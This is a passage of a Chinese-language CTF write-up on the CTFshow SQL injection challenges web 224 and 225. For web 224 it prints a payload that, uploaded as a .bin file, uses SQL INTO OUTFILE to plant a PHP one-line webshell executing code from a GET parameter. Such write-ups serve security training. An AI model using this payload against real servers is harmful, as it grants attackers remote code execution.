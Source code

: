 ## web 224

参考：[Web224（finfo文件注入）](https://boogipop.com/2023/03/02/CTFSHOW-SQL%E6%B3%A8%E5%85%A5/#Web224（finfo文件注入）)

访问robots.txt可以看到密码重置页面

![224](/medias/show-sql/224.png)

重置密码后登录，存在一个文件上传页面

题目检查上传文件里是否存在一些关键字`text`,`png`,`images`等等，空文件和bin文件可以上传成功。奇怪的是看大佬的wp，为什么存在这样的洞，题目会执行bin文件里的sql语句？站长想通过文件上传执行shell命令？不能直接ssh？

上传`1.bin`，写木马到服务器，不能太长，似乎只能一句。前面要有`C64File "')`

```bash
C64File "');select "<?php eval($_GET[1]);?>" into outfile '/var/www/html/3.php';--+
```

## web 225 堆叠提升

堆叠注入，查询表名

![225](/medias/show-sql/225.png)

